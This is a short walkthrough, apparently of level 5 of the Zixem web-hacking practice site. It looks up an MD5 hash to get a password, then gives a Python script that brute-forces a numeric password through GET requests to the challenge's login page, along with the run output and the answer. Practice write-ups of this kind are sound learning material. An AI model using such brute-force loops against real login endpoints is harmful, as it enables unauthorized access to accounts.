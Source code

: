 + Let's try it with `d1fd6ef9af6cb677e09b1b0a68301e0c`:  
[www.zixem.altervista.org/SQLi/md5cracker.php?hash=d1fd6ef9af6cb677e09b1b0a68301e0c](www.zixem.altervista.org/SQLi/md5cracker.php?hash=d1fd6ef9af6cb677e09b1b0a68301e0c)  
> Try the password: *zixemhf*
> Return to the login page and get your next step.

![Login Page 2](./lvl5-login-page2.png)  
+ Ok, here is the script on Python:

~~~
import requests

for i in range (0, 999999):
    req = requests.get("http://www.zixem.altervista.org/SQLi/login_do.php?pass=" + str(i))
    if "> - Wrong Pass" in req.text:
        print("> - Wrong Pass : %d" %i)
    else:
        print("Pass Found : %d\n" %i)
        break
~~~  
+ Pass found: 1337
> root@Blue3:.../Zixem# py sqli-level5.py  
> ...
> - Wrong Pass : 1334
> - Wrong Pass : 1335
> - Wrong Pass : 1336
> - Pass Found : 1337

##### Result: #####  
[http://www.zixem.altervista.org/SQLi/login_do.php?pass=1337](http://www.zixem.altervista.org/SQLi/login_do.php?pass=1337)